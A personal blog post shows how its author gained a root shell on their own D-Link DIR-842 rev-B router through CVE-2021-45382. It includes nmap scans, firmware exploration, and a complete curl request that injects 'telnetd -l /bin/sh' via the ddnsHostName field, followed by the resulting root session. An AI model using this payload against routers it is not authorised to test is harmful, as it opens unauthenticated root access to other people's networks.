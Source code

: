 +++
title = "D-LINK DIR-842 Rev-B privilege escalation"
description = "A quick blog post on how to enable telnet your REV-B device"
tags = [
"howto",
"research",
"firmware",
"shell",
]
date = "2022-06-06 17:00:00"
categories = [
"Research",
"Exploration",
]
keywords = [
"firmware",
"howto",
"research",
"shell",
]
image = "cover.png"

+++


In this quick blog post we'll see how to enable Telnet on your DIR-842 rev-b
<!--more-->


# Some background

There are known vulnerabilities on D-Link's DIR-842, but they are about the [rev-C models](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10184).

The rev-B are running a different portal AFAIK, and no exploit for code execution was found during research.

## A first portscan

```shell
$ nmap 192.168.240.1
Starting Nmap 7.80 ( https://nmap.org ) at 2022-06-07 06:09 CEST
Nmap scan report for 192.168.240.1
Host is up (0.0029s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
443/tcp  open  https
MAC Address: 10:62:FF:FF:5A:FF (D-Link International)
```

Other than the usual web interface nothing special to see.

## Firmware extraction

As usual `binwalk` is used on the last firmware.

We're looking for web files and endpoints not mentioned in the web interface itself.

The first candidate we found was 

`http://192.168.0.1/SharePort.html`

![Home](/dlink/dir-842-shareport.png)

This feature shouldn't be present as the device has no USB ports whatsoever.

*So we enabled it :)*

## Exploring SharePort

After enabling the Web File Access, we run another port scan :

```shell
$ nmap 192.168.240.1
Starting Nmap 7.80 ( https://nmap.org ) at 2022-06-07 06:15 CEST
Nmap scan report for 192.168.240.1
Host is up (0.0029s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
443/tcp  open  https
8181/tcp open  intermapper
MAC Address: 10:62:FF:FF:5A:FF (D-Link International)
```

A new port has been opened, revealing another interface :

![Home](/dlink/dir-842-shareport-open.png)

Adding users and trying them doesn't bring any results as most requests are not implemented.

## Switching to CVE-2021-45382 

What is familiar though, is the call to `misc.ccp`, which is made on that portal's login page.

A quick research dig bring up a result for this specific D-Link portal, where `ddns_check.ccp` is vulnerable to 
command injection.

Kudos to [eh-easyhacks](https://eh-easyhacks.blogspot.com/2022/04/cve-2021-45382.html) for the details on the CVE !

You're going to need :

- Be authenticated on port 80, session opened
- `User-Agent` set
- `Referer` set

```shell
curl -kv 'http://192.168.240.1/ddns_check.ccp' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36' \
  -H 'Referer: http://192.168.240.1:8181/login.asp' \
  --data-raw 'ccp_act=doCheck&ddnsHostName=;telnetd -l /bin/sh;&ddnsUsername=a&ddnsPassword=b' 
```


## Voila

```shell
$ nmap 192.168.240.1
Starting Nmap 7.80 ( https://nmap.org ) at 2022-06-07 06:23 CEST
Nmap scan report for 192.168.240.1
Host is up (0.0027s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
23/tcp   open  telnet
53/tcp   open  domain
80/tcp   open  http
443/tcp  open  https
8181/tcp open  intermapper
MAC Address:  10:62:FF:FF:5A:FF (D-Link International)

Nmap done: 1 IP address (1 host up) scanned in 0.34 seconds

$ telnet 192.168.240.1
Trying 192.168.240.1...
Connected to 192.168.240.1.
Escape character is '^]'.

# ps auxwww
  PID USER       VSZ STAT COMMAND
    1 root      1388 S    init      
    2 root         0 SW<  [kthreadd]
    3 root         0 SW<  [ksoftirqd/0]
    4 root         0 SW<  [events/0]
    5 root         0 SW<  [khelper]
    8 root         0 SW<  [async/mgr]
   52 root         0 SW<  [kblockd/0]
   72 root         0 SW   [pdflush]
   73 root         0 SW<  [kswapd0]
  636 root         0 SW<  [mtdblockd]
  667 root         0 SWN  [jffs2_gcd_mtd2]
  683 root      1004 S    resetd 
  710 root      1392 S    -/bin/sh 
  711 root     15272 S    ncc2 
 1072 root     15272 S    ncc2 
 1073 root     15272 S    ncc2 
 1074 root     15272 S    ncc2 
 1075 root     15272 S    ncc2 
 1076 root     15272 S    ncc2 
 1077 root     15272 S    ncc2 
 1078 root     15272 S    ncc2 
 1079 root     15272 S    ncc2 
 1080 root     15272 S    ncc2 
 1083 root      1384 S    klogd 
 1108 root      1392 S    crond 
 5294 root      1384 S    syslogd -L -s 16 
 5714 root      1104 S    dnsmasq -o -u root -i br0 -z br0 -a 192.168.240.1 -x 
 5726 root      1136 S    lld2d br0 
 5729 root      1372 S    mDNSResponderPosix -f /var/tmp/mdns_br0.conf -b -P /v
 7698 root      1616 S    proxy br0 54088 0 /var/tmp/proxy.conf 
 7699 root      1624 S <  proxy br0 54088 0 /var/tmp/proxy.conf 
 7924 root      1092 S    radvd -C /var/tmp/radvd_br0.conf -p /var/run/radvd_br
 8303 root      3736 S    jjhttpd -m RUN_HTTP -d /www -P /var/run/jjhttpd_0.pid
 8309 root      1660 S    lanmapd2 br0 
 8380 root      1536 S    wscd -start -both_band_ap -c /var/wsc.conf -w wlan0 -
 8383 root      1040 S    iwcontrol wlan1 wlan0 
 8398 root      1484 S    pppoe-relay -S eth1 -C br0 
 8407 root      3736 S    jjhttpd -m RUN_HTTP -d /www -P /var/run/jjhttpd_0.pid
13574 root      3636 S    jjhttpd -m RUN_HTTP -d /wa_www -P /var/run/jjhttpd_2.
13577 root      3668 S    jjhttpd -m RUN_HTTPS -d /wa_www -P /var/run/jjhttpd_3
17394 root      3668 S    jjhttpd -m RUN_HTTPS -d /www -P /var/run/jjhttpd_1.pi
17532 root      3636 S    jjhttpd -m RUN_HTTP -d /wa_www -P /var/run/jjhttpd_2.
24434 root      1388 S    telnetd -l /bin/sh 
24755 root      1392 S    /bin/sh 
24762 root      1388 R    ps auxwww 
```
